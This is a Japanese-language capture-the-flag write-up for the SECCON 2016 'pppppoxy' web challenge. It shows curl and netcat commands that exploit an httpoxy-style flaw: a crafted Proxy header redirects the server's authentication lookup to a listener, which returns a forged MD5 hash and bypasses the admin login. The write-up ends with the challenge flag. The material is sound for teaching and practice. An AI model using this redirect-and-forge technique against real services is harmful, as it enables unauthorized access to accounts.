





# pppppoxy [Web / 200pt]

## Problem

Log in as admin and get the flag

[pppppoxy.zip](https://github.com/AkashiSN/SECCON2016-Online-CTF/blob/master/Web/pppppoxy/pppppoxy.zip).

`password:noinfected`

## Answer

```plain
$ file pppppoxy.exe 
pppppoxy.exe: PE32 executable (console) Intel 80386 Mono/.Net assembly, for MS Windows
```

`.NET`のプログラムのよう

あぁこれは箱庭シリーズだな

とにかく実行してみよう



ブラウザが立ち上がって`127.0.0.1`にアクセスしている

ってことは内部でサービスが立ち上がってるってことか



`curl`でアクセスしてみた

タイトルの`poxy`は`汚い`っていう意味らしい

（最初から`proxy`かと思ってた・・・）

ってことは[15年来のセキュリティホール「httpoxy」、PHPやPythonなどCGIアプリに影響](https://japan.zdnet.com/article/35086098/)これかな〜

ざっくりいうと、`Proxy`ヘッダーを細工するとサーバーを任意の`URL`に誘導することができる脆弱性

ってことで`nc`で`8080`ポートでリッスンしておいて`Proxy`にそれを指定してみよう

```cmd
> curl -H "Proxy: http://127.0.0.1:8080" http://127.0.0.1/ --data "user=admin&pass=hoge"
```

こんな感じのリクエストを

```cmd
> nc -l -p 8080
```

で受け付けてやる



するとサーバー側から

```plain
GET http://127.0.0.1/Authenticator?user=admin HTTP/1.0
Host: 127.0.0.1
User-Agent: poxyclient/0.1
```

というリクエストが飛んでくる

`http://127.0.0.1/Authenticator?user=admin`にアクセスしてみると



```plain
C:\Users\IEUser>curl -i http://127.0.0.1/Authenticator?user=admin
HTTP/1.0 200 OK
Content-Type: text/plain
Server: poxyserver/0.1
Content-Length: 43
Connection: close
X-XSS-Protection: 0
Expires: Sat, 10 Dec 1977 00:00:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache

{"hash":"C432A8174394A3F655B2BD29BB075E4C"}
```

このハッシュはMD5のよう・・・

データベースを検索してみても見つからなかった・・・

そもそもなぜこのようなとこにアクセスするのかを考えると、

`/`は`POST`されてきた`user`と`pass`を認証するために`/Authenticator?user=`にリクエストを送る

`/Authenticator`は`GET`で指定されたユーザーのパスワードのハッシュ値を返す。

パスワードのハッシュ値を受け取った`/`は`POST`されてきた`pass`のハッシュ値と比較して一致していればログイン処理を行う。

つまり`/Authenticator`が返すハッシュ値を自分で入力したパスワードのハッシュ値に書き換えると認証を突破することができそう

適当に`hoge`のパスワードのハッシュ値を返すようにしてあげる

（`echo`は標準では改行文字を出力するので`-n`で抑制してあげる(結構ハマった)）

```bash
$ echo -n "hoge" | md5sum | tr [a-z] [A-Z] 
EA703E7AA1EFDA0064EAA507D9E8AB7E  -
```

```plain
HTTP/1.0 200 OK
Content-Type: text/plain
Content-Length: 43

{"hash":"EA703E7AA1EFDA0064EAA507D9E8AB7E"}
```

このようなレスポンスをしてあげれば良さそう

(`Windows`での`cat`は`type`)

```cmd
> type res.txt
HTTP/1.0 200 OK
Content-Type: text/plain
Content-Length: 43

{"hash":"EA703E7AA1EFDA0064EAA507D9E8AB7E"}
```

このようなファイルを作ってあげて

```cmd
> type res.txt | nc -l -p 8080
```

リクエストを受けたら`res.txt`の内容のレスポンスを返すようにしてやる

```cmd
> curl -H "Proxy: http://127.0.0.1:8080" http://127.0.0.1/ --data "user=admin&pass=hoge"
```

さっきみたいにリクエストを送ってあげるとFLAGが返ってくる



`SECCON{D5691FB40B2AF60CA78DA78AC65A71E2}`